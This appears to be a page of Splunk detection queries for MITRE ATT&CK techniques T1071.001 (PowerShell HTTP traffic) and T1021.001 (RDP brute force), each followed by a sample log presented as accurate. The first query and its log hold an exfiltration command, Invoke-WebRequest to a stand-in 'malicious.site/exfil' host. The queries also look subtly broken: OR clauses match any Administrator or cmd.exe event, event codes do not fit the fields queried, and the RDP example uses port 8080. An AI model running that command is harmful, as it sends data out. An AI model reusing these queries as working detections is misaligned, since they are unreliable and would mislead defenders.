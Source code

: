

## T1071.001 - Detection of HTTP Communication via powershell.exe

### Splunk Query

```spl
index=windows sourcetype="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode="3" CommandLine="Invoke-WebRequest -Uri http://malicious.site/exfil"
OR ParentProcessName="C:\Windows\System32\cmd.exe"
OR User="Administrator"
```
### Accurate Result Data (Example Log)

```json
{
  "timestamp": "2024-05-28 15:00:00",
  "MITRE_Technique": "T1071.001",
  "Description": "Detection of HTTP Communication via powershell.exe",
  "sourcetype": "WinEventLog:Microsoft-Windows-PowerShell/Operational",
  "EventCode": "3",
  "CommandLine": "Invoke-WebRequest -Uri http://malicious.site/exfil",
  "ParentProcessName": "C:\Windows\System32\cmd.exe",
  "User": "Administrator",
  "Source_Network_Address": "192.168.56.147",
  "DestinationPort": "80"
}
```

---


## T1021.001 - Detection of RDP Brute Force via mstsc.exe

### Splunk Query

```spl
index=windows sourcetype="WinEventLog:Security" EventCode="4625" CommandLine="mstsc.exe /v:192.168.56.102 -session 13"
OR ParentProcessName="C:\Windows\System32\explorer.exe"
OR User="testuser"
```
### Accurate Result Data (Example Log)

```json
{
  "timestamp": "2024-05-28 15:05:00",
  "MITRE_Technique": "T1021.001",
  "Description": "Detection of RDP Brute Force via mstsc.exe",
  "sourcetype": "WinEventLog:Security",
  "EventCode": "4625",
  "CommandLine": "mstsc.exe /v:192.168.56.102 -session 13",
  "ParentProcessName": "C:\Windows\System32\explorer.exe",
  "User": "testuser",
  "Source_Network_Address": "192.168.56.141",
  "DestinationPort": "8080"
}
```

---